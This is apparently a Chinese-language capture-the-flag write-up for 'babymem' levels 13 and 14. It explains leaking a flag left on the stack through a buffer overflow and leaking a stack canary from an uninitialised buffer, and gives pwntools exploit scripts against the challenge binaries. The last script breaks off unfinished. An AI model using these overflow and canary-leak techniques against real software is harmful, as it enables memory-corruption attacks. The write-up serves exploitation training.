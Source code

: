 

## level 13

这一关在challenge之前，有一个verfiy函数，他会读取flag的内容到栈空间中。 在调用verfiy函数返回后才调用challenge函数，又碰巧challenge函数的栈空间大于verfiy的栈空间。所以challenge函数的栈空间中包含有verfiy的栈空间。也就是包含了verfiy之前读取到的flag内容。

又又又恰巧，读取标准输入缓冲区的buffer恰好在verfiy读取flag的内容之前，所以，只要恰好将缓冲区溢出到flag的位置，后续`puts`函数就会将flag的内容打印出来。

至于如何计算溢出的字节数，就反编译看一下栈空间，计算一下buffer到flag的字节数就行。


```python
from pwn import *

elf = ELF("/challenge/babymem_level13.1")
p = process("/challenge/babymem_level13.1")

buffer_size = 0x1B
p.sendline(f"{buffer_size}")
p.send(buffer_size * b'A')
p.interactive()

elf = ELF("/challenge/babymem_level13.0")
p = process("/challenge/babymem_level13.0")

buffer_size = 0x37
p.sendline(f"{buffer_size}")
p.send(buffer_size * b'A')
p.interactive()
```


## level 14

这个题跟之前不一样的地方，之前是用puts输出，它会从缓冲区的开头一直到遇到一个00子节。但是现在是printf输出，它通过format字符串指定了可以输出的最大字节数`printf("You said: %.424s\n", (const char *)buf);`,而这个大小是小于溢出时可以显示canary的字节数的。

本题的缓冲区在创建的时候没有初始化，这导致缓冲区中有可能存在有之前函数的栈帧数据还没有被清零。所以可以通过在缓冲区中找可能的canary值。前面也说过了，canary的值的特征就是开头是`\x00`的八个随机字节组成的随机数。

.0这一关可以通过打印的栈空间来找。
.1只能自己通过gdb，注意按汇编指令执行到`fs:26h`保存到`ebp-8`的位置之后，在打印栈空间的内容。然后对比缓冲区中是否包含有canary值。在计算偏移量就行。

```python

from pwn import *
elf = ELF("/challenge/babymem_level14.1")
p = process("/challenge/babymem_level14.1")
buffer_size = 19 * 8 + 1
p.sendline(f"{buffer_size}")
p.send(b'REPEAT' + b'A'* (buffer_size-6) )
output = p.recvuntil(b'Backdoor triggered! Repeating challenge()')
# print(output)
match = re.search(r'^(You said: REPEATAAA+.*?)$', output.decode('latin-1'), re.MULTILINE)
if match:
    line = match.group(1)
    print(line)
    line = line[10+buffer_size: 10+buffer_size+7]
    cancary =  line.encode('latin-1')
    hex_str = ''.join(f'{byte:02x}' for byte in cancary[::-1]) + "00"
    print(hex_str)
    cancary_value = p64(int(hex_str, 16))
    print(f"Test! {cancary_value}")
else:
    print("No matching line found")

buffer_size = 0x1A8 + 8 + 8 + 2
```